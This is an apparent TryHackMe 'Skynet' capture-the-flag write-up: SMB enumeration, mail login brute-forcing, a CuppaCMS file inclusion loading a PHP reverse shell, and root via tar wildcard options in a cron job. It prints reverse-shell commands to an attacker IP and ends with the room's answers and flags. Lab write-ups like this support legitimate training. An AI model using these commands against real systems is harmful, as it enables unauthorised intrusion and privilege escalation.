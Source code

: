 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Skynet/logo.jpeg
date: 2022-09-03 09:45:47+07:00
modified: 2022-09-03 09:45:47+07:00
categories: TryHackMe
machine_author:
  link: https://tryhackme.com/p/tryhackme
  name: TryHackMe
tags: [Skynet, TryHackMe, Writeup, OSCP]
title: Skynet
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/thmbanner.png)

 
A vulnerable Terminator themed Linux machine.

## **Recon**

I start with port scanning and service detection with [AutoRecon]().

Following ports  were found

|Ports|Service
|22| TCP (OpenSSH 7.2p2)
|80| HTTP (Apache httpd 2.4.18)
|110| POP3 (Dovecot pop3d)
|139|Samba (smbd 3.x - 4.x)
|143|imap (Dovecot imapd)
|445|Samba (smbd 4.3.11-Ubuntu)

![](https://photos.squarezero.dev/file/abir-images/Skynet/1.png)

Next, I start enumerating websites using [Feroxbuster]()

`feroxbuster -u http://10.10.244.66/ -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/2.png)

I found a login page [Squirrelmail]

`http://10.10.244.66/squirrelmail/src/login.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/3.png)

Then I enumerate SMB with [SMBMAP]()

`smbmap -H 10.10.244.66`

![](https://photos.squarezero.dev/file/abir-images/Skynet/4.png)

## **Exploit**

First I decided to check out SMB to see if it has something useful.
Only “anonymous” had an anonymous share. so I checked it out.

![](https://photos.squarezero.dev/file/abir-images/Skynet/5.png)

Inside I found a “attention.txt” and a log folder containing 3 text files.

![](https://photos.squarezero.dev/file/abir-images/Skynet/6.png)

![](https://photos.squarezero.dev/file/abir-images/Skynet/7.png)

The password for SMB has been reset. Also in the log1.txt I found potential passwords.

 ![](https://photos.squarezero.dev/file/abir-images/Skynet/8.png)

I decided to brute-force mail login page using username → “milesdyson” and log1.txt as passwords. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/9.png)

I logged in with “cyborg007haloterminator” and inside I found out the new password → `)s{A&2Z=F^n_E.B``

![](https://photos.squarezero.dev/file/abir-images/Skynet/10.png)

I logged in to SMB using the new password.  

![](https://photos.squarezero.dev/file/abir-images/Skynet/11.png)

I found important.txt.

![](https://photos.squarezero.dev/file/abir-images/Skynet/12.png)

The note mentions a hidden directory `/45kra24zxs28v3yd`

![](https://photos.squarezero.dev/file/abir-images/Skynet/13.png)

## **More E**numeration

I check out the source code of the page but didn’t find anything interesting. 

Also, I checked out the picture to see if there was any useful metadata. Still nothing interesting.

Next, I decided to find hidden directories. 
`feroxbuster -u http://10.10.244.66/45kra24zxs28v3yd -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/14.png)

I found another login page → `http://10.10.244.66/45kra24zxs28v3yd/administrator/`

![](https://photos.squarezero.dev/file/abir-images/Skynet/15.png)

## **More Exploitation**

After looking for a little bit I found an exploit for CuppaCMS in [exploit-DB](https://www.exploit-db.com/exploits/25971)

![](https://photos.squarezero.dev/file/abir-images/Skynet/16.png)

It is a local File Inclusion exploit where I can run my reverse shell. 

I download a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) and changed the host and port number.

![](https://photos.squarezero.dev/file/abir-images/Skynet/17.png)

Then I opened a python server and start a Netcat listening.

`python3 -m http.server 80`

`nc -lnvp 4444`

I executed LFI and got a shell

`10.10.244.66/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.19.204:80/shell.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/18.png)

I got the user flag

![](https://photos.squarezero.dev/file/abir-images/Skynet/19.png)

## **Privilege Escalation**

Time to get the root flag. I start by making the shell stable using python

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

![](https://photos.squarezero.dev/file/abir-images/Skynet/20.png)

I run Linpeas to find possible vulnerabilities to get the root.

![](https://photos.squarezero.dev/file/abir-images/Skynet/21.png)

After looking for sometimes I found a cronjob that runs as root every min

![](https://photos.squarezero.dev/file/abir-images/Skynet/22.png)

Upon checking the code I found the following

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I found this article exploiting tar wildcards → [TarWildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Tar has two options 

**–checkpoint[=NUMBER]** show progress messages for every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

This will help get access to root

```bash
I used the following commands
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.13.19.204/4445 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Then I started a Netcat session and wait for the cronjob to work. 

Now I am Root

![](https://photos.squarezero.dev/file/abir-images/Skynet/23.png)

I got the root flag! 

![](https://photos.squarezero.dev/file/abir-images/Skynet/24.png)


***Q1. What is Miles password for his emails?***

***A. cyborg007haloterminator***

***Q2. What is the hidden directory?***

***A. /45kra24zxs28v3yd***

***Q3. What is the vulnerability called when you can include a remote file for malicious purposes?***

***A. remote file inclusion***

***Q4. What is the user flag?***

***A. 7ce5c2109a40f958099283600a9ae807***

***Q5. What is the root flag?***

***A. 3f0372db24753accc7179a282cd6a949***